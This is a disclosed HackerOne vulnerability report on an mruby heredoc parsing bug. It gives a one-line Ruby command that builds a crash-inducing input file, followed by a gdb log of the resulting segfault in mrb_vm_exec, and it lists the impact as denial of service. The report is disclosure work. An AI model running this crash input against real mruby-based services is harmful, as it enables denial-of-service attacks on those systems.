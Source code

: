 # mruby heredoc notation

## Report Details
- **Report ID**: 297383
- **URL**: https://hackerone.com/reports/297383
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2017-12-12T23:32:33.925Z
- **Disclosed**: 2018-01-10T23:46:42.876Z

## Reporter
- **Username**: j0s3
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify-scripts

## Vulnerability Information
Hi
There exists a vulnerability in mruby when using the heredoc notation (it doesn't need ulimit)

The minified test can be generated with the following command:
```
ruby -e 'IO.binwrite("j_3_.rb", "\xa7<l while\x270\x27><<i\x00" + ("\x0a" * 0x3ffd) + "i\x0a")'
```

log:
```
root@Ubuntu-1604-xenial-64-minimal ~/jtest/mruby/bin # ulimit -Sv unlimited; ruby -e 'IO.binwrite("j_3_.rb", "\xa7<l while\x270\x27><<i\x00" + ("\x0a" * 0x3ffd) + "i\x0a")'; rm core; ulimit -c unlimited; ./mruby j_3_.rb; gdb ./mruby core
Segmentation fault (core dumped)
GNU gdb (Ubuntu 7.11.1-0ubuntu1~16.5) 7.11.1
Copyright (C) 2016 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from ./mruby...done.
[New LWP 32567]
Core was generated by `./mruby j_3_.rb'.
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0x000000000041c7c2 in mrb_vm_exec (mrb=0xae2010, proc=0xd66440, pc=0x7ff884d18014)
    at /root/jtest/mruby/src/vm.c:1231
1231            JUMP;
(gdb) x/5i $rip
=> 0x41c7c2 <mrb_vm_exec+4535>: mov    (%rax),%eax
   0x41c7c4 <mrb_vm_exec+4537>: mov    %eax,-0x8e0(%rbp)
   0x41c7ca <mrb_vm_exec+4543>: mov    -0x8e0(%rbp),%eax
   0x41c7d0 <mrb_vm_exec+4549>: and    $0x7f,%eax
   0x41c7d3 <mrb_vm_exec+4552>: cltq
(gdb) i r
rax            0x7ff884d18014   140705356939284
rbx            0x0      0
rcx            0xaf7810 11499536
rdx            0x10     16
rsi            0x3      3
rdi            0xae2010 11411472
rbp            0x7ffcbd6af3b0   0x7ffcbd6af3b0
rsp            0x7ffcbd6aeaa0   0x7ffcbd6aeaa0
r8             0x414829 4278313
r9             0x42f0fd 4387069
r10            0x7ff884817b78   140705351695224
r11            0x2e08   11784
r12            0x4019c0 4200896
r13            0x7ffcbd6af7e0   140723486390240
r14            0x0      0
r15            0x0      0
rip            0x41c7c2 0x41c7c2 <mrb_vm_exec+4535>
eflags         0x10206  [ PF IF RF ]
cs             0x33     51
ss             0x2b     43
ds             0x0      0
es             0x0      0
fs             0x0      0
gs             0x0      0

```

Thanks

## Impact

DoS

## Attachments
No attachments

